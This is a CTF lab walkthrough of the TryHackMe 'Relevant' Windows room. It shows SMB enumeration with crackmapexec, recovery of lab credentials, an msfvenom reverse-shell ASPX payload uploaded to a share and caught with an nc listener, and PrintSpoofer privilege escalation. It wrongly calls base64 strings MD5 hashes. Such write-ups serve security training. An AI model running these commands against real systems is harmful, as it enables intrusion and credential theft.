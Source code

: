 ```yaml
---
title: TryHackMe - Relevant Room Walkthrough
author: skullhat
date: '2023-06-17 00:34:00 +0800'
comments: true
categories:
  - thm
  - ctf
tags:
  - windows
  - active_directory
published: true
---
```

## Scope:

- The client has asked that you secure two flags (no location provided) as proof of exploitation:
	- User.txt
	- Root.txt
- Any tools or techniques are permitted in this engagement, however we ask that you attempt manual exploitation first  
- Locate and note all vulnerabilities found
- Submit the flags discovered to the dashboard
- Only the IP address assigned to your machine is in scope
- Find and report ALL vulnerabilities (yes, there is more than one path to root)

## Basic OS Detection

```bash
ping -c 1 10.10.97.109
PING 10.10.97.109 (10.10.97.109) 56(84) bytes of data.
64 bytes from 10.10.97.109: icmp_seq=1 ttl=127 time=285 ms
```

- Probably a Windows machine.
## Enumeration using `nmap`



## SMB:445
### Null Authentication
- Try null authentication, but getting nothing. Based on nmap output the `gust` account can access the shares.

```bash
crackmapexec smb 10.10.97.109 -u "" -p "" --shares
```

- When trying `gust` has juicy folder called nt4wrksv with read and write permissions.

```bash
crackmapexec smb 10.10.97.109 -u "gust" -p "" --shares

```
![[/assets/img/uploads/Pasted image 20230614185247.png]]

- Found `passowrds.txt` then create smb directory and move it there.

``` bash
crackmapexec smb 10.10.176.144 -u "gust" -p "" -M spider_plus
smbclient //10.10.176.144/nt4wrksv -U ""
```
- The users passwords was MD5 hashed.

> The Hash
Qm9iIC0gIVBAJCRXMHJEITEyMw==
QmlsbCAtIEp1dzRubmFNNG40MjA2OTY5NjkhJCQk

> The Plain Text
Bob:!P@$$W0rD!123
Bill:Juw4nnaM4n420696969!$$$                                          


### SMB relay
- From nmap and cme the SMB signing is disable, so smb relay may work.
- Can not perform smb relay.

## Getting a shell

1. Try bill account on `evil-winrm` and can not access. Also try on RDP and failed. So it must be fake!
2. found that port 49663 has also a web server and run `gobsuter` to enumerate directories and found one with same `smb` share name! 

- http://10.10.247.115:49663/nt4wrksv/shell.aspx


``` bash
msfvenom -p windows/x64/shell_reverse_tcp LPORT=9001 LHOST=10.9.78.51  -f aspx -o shell.aspx 
smbclient //10.10.247.115/nt4wrksv -U 'bob'
smb: \> put shell.aspx
sudo rlwrap nc -lnvp 9001
```

## Local Enumeration 

``` powershell
whoami /all
systeminfo
```

## PrivEsc

- We found `SeImpersonatePrivilage` so we can run [PrintSpoofer](https://github.com/itm4n/PrintSpoofer/releases/tag/v1.0) which is Abusing Impersonation Privileges From LOCAL/NETWORK SERVICE to SYSTEM by abusing SeImpersonatePrivilege on Windows 10 and Server 2016/2019.


- Potatoes attack is detected by the AV.
- There is a problem in kali preventing me performing Etrnalblue MS17-010
